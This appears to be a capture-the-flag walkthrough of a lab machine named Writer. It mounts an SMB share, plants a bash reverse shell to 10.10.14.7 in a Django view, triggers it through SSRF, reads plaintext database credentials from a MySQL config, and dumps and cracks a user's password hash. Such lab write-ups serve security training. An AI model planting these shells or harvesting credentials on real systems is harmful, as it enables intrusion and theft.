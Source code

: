 # Mount SMB

```bash
mount -t cifs -o "user=kyle,password=ToughPasswordToCrack" //writer.htb/writer2_project writer2_project
```

Enumerating SMB, this is the app running internally on 8080, so we can use SSRF on main app upload url feature (hidden field on the form) to make a request to this one, by editing the views.py 

# Views.py

```python
from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request):
    os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/9001 0>&1'")
    template_name = "index.html"
    return render(request,template_name)
```


# Writer Upload File SSRF
![[Pasted image 20210802220139.png]]

![[Pasted image 20210802220208.png]]


![[Pasted image 20210802220103.png]]

# Django Creds

writerv2/settings.py contains a reference to /etc/mysql/my.cnf, wich contains creds

```bash
cat /etc/mysql/my.cnf
[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8
```


```bash
mysql -u djangouser -p

MariaDB [dev]> select username, email, password from dev.auth_user;
+----------+-----------------+------------------------------------------------------------------------------------------+
| username | email           | password                                                                                 |
+----------+-----------------+------------------------------------------------------------------------------------------+
| kyle     | kyle@writer.htb | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= |
+----------+-----------------+------------------------------------------------------------------------------------------+
```


# Crack the password

```bash
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= 

kyle:marcoantonio
```